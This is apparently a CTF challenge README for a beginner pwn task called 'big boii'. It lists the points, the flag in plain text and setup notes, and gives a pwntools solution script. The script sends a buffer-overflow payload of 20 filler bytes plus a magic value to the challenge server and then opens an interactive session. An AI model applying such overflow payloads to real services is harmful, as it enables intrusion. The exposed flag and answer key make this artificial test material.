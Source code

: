 
# big boii

## Description

- Only big boi pwners will get this one!

## Points

- 25

## Flag

- flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}

## Setup

- Make sure that competitors can connect to the challenge

## Notes

- Mach-o 64-bit binary
- Provide dylibs to the competitors 
- Place all linux cmds that can read files to different directory

## Solution

```py
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'

#p = process("./boi")
p = remote("pwn.chal.csaw.io", 9000)
#p = remote("localhost", 1436)
p.recvuntil("??")
print "before"
p.sendline('A' * 20 + p32(0xcaf3baee))
print "after"
p.interactive()
```